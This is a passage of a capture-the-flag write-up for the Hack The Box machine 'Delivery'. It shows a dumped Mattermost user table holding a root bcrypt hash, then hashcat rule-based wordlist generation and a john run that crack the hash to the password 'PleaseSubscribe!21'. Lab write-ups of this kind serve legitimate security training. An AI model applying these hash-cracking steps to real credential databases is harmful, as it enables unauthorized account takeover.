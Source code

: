 ```sql
| Id                         | CreateAt      | UpdateAt      | DeleteAt | Username | Password                                                     | AuthData | AuthService | Email             | EmailVerified | Nickname | FirstName | LastName | Position | Roles                    | AllowMarketing | Props | NotifyProps                                                                                                                                                                  | LastPasswordUpdate | LastPictureUpdate | FailedAttempts | Locale | Timezone                                                                                 | MfaActive | MfaSecret |
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb |             1 |          |           |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"} |         0 |           |
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
1 row in set (0.000 sec)
```

* **Get the hash:** `root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO`


# Root shell

* Crack hash using hashcat *but it not gonna work because first we need to understand the second hint* **use hascat rules to easily crack all variations of common words or phrases.** _and that word or phrase is **PleaseSubscribe!**_

* searching on google found a perfect rule for this work from  [NotSoSecure@github](https://github.com/NotSoSecure/password_cracking_rules)

```bash
❯ hashcat -a 0 -m 3200 hash word -r OneRuleToRuleThemAll.rule --debug-mode=1 --debug-file=matched.rule --force
# hashcat is slow in linux so i use hashcat only or generating wordlist and then use john to crach the hash

❯ echo "PleaseSubscribe" | hashcat -r OneRuleToRuleThemAll.rule --stdout > wordlist

❯ sudo john hash -w=wordlist
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

PleaseSubscribe!21 root
1g 0:00:01:38 DONE (2021-01-11 22:28) 0.01014g/s 130.7p/s 130.7c/s 130.7C/s PleaseSubscribe!p..PleaseSubscribe!14
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```